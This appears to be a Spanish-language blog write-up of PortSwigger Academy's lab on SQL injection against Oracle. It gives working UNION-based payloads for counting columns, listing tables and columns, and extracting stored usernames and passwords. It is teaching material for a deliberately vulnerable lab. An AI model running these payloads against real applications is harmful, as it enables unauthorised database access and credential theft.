



+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 10"
date = "2021-11-07"
description = "Lab: SQL injection attack, listing the database contents on Oracle"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection attack, listing the database contents on Oracle

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer los datos en una base de datos oracle que es muy distinto a como se hace en los otros gestores

## Reconocimiento

Algo a notar en las consultas al hacer union en MySQL es que al agregar un comentario se debe de agregar un espacio, como ejemplo `union select null-- ` notese el espacio al final para que el sistema pueda comentar correctamente, en otros gestores no es necesario esto pero MySQL si.

> Algo a tomar en cuenta es que al hacer la solicitud por medio del navegador si se agrega solamente un espacio este no aceptara correctamente la consulta por alguna razon por lo que habria que agregar un `-` para inyectar correctamente la consulta y contrario por medio de `repeater en burpsuite` si se puede agregar solo el espacio y sigue mostrando correctamente sin dar un error de servidor.

###  Payloads

#### Detectar columnas

```sql
Pets' order by 1-- -
Pets' order by 2-- -
Pets' order by 3-- - //Muestra error
```
### Detectar string

Por lo que se ve al imprimir datos es que las dos columnas recuperan datos string, no es necesario hacer la prueba pero siempre hacerlo cuando se dude.

```sql
Pets' union select 'test','test' from dual-- -
```
### Recuperar tablas

Ahora recuperar las tablas, en este caso vamos a buscar una tabla que contenga los usuarios, en este caso es la tabla `USERS_TMNLZU` y es la que se lista.

```sql
Pets' union select table_name,null from all_tables-- -
```


### Recuperar columnas

Para detectar el nombre de las columnas en las tablas se inyecta la siguiente consulta, indicando la tabla de la que se quiere extraer.

```sql
Pets' union select column_name,null from all_tab_columns where table_name = 'USERS_TMNLZU'-- -
```



### Extraer datos

Ahora podremos recuperar los datos teniendo el nombre de las columnas y el nombre de las tablas.

```sql
Pets' union select USERNAME_KNMULR,PASSWORD_KQXSZA from USERS_TMNLZU-- -
```


Y con esto hemos resulto el lab:



Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)